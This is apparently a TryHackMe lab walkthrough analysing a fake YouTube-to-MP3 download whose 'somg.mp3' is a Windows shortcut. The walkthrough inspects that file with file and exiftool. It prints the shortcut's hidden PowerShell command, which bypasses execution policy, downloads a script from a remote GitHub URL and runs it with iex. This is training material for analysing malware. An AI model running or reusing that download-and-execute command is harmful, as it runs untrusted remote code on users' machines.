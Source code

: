 ### Getting Some Tunes
Let's find out by pasting any YouTube link in the search form and pressing the "Convert" button. Then select either mp3 or mp4 option. This should download a file that we could use to investigate. For example, we can use <https://www.youtube.com/watch?v=dQw4w9WgXcQ>, a classic if you ask me.

Once downloaded, navigate to your Downloads folder or if you are using the AttackBox, to your /root/ directory. Locate the file named download.zip, right-click on it, and select Extract To. In the dialog window, click the Extract button to complete the extraction.


![](extract.png){: width="1209" height="1429"}

You'll now see two extracted two files: **song.mp3** and **somg.mp3.**

To quickly determine the file's contents, double-click on the "Terminal" icon on the desktop then run the file command on each one. First, let's try checking **song.mp3.**

```console
user@tryhackme:~$ file song.mp3
download.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```

There doesn't seem to be anything suspicious, according to the output. As expected, this is just an MP3 file.

How about the second file **somg.mp3**? From the filename alone, we can tell something is not right. Still, let's confirm by running the **file** command on it anyway.

```console
user@tryhackme:~$ file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

Now, this is more interesting!

The output tells us that instead of an MP3, the file is an "MS Windows shortcut", also known as a **.lnk** file. This file type is used in Windows to link to another file, folder, or application. These shortcuts can also be used to run commands! If you've ever seen the shortcuts on a Windows desktop, you already know what they are.

There are multiple ways to inspect **.lnk** files to reveal the embedded commands and attributes. For this room, however, we'll use ExifTool, which is already installed on this machine.

To do this, go back to your Terminal and type:

```console
user@tryhackme:~$ exiftool somg.mp3
```

Look through the output to locate the command used as a shortcut in the **somg.mp3** file. If you scroll down through the output, you should see a PowerShell command.

```console
...
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
user@tryhackme:~# 
```
